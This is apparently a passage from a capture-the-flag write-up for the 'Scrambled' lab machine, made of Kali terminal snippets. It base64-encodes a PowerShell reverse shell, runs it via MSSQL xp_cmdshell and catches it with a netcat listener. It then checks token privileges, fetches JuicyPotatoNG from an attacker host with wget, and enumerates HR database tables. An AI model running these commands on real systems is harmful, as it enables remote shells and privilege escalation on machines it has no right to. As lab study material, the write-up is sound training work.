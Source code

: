```bash
┌──(pwn㉿kali)-[~/Scrambled]
└─$ cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t UTF-16LE | base64 -w 0
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AH--------------LgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAAoACgA=
```

```bash
SQL (SCRM\administrator  dbo@master)> xp_cmdshell powershell -enc JABjAG,,,,,,,,,,
```


```bash
nc -nlvp 9999
```

```bash
PS C:\users> whoami
scrm\sqlsvc
PS C:\users> 

```

```bash
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```

---
https://github.com/antonioCoco/JuicyPotatoNG/releases

```bash
PS C:\programdata> wget http://10.10.14.6:8888/JuicyPotatoNG.exe -O JuicyPotatoNG.exe
```

---
didnt work for me
lets enumerate the database

---
```bash
SQL (SCRM\administrator  dbo@master)> select TABLE_NAME from ScrambleHR.INFORMATION_SCHEMA.TABLES;
TABLE_NAME   
----------   
Employees    

UserImport   

Timesheets   

SQL (SCRM\administrator  dbo@master)> 

```

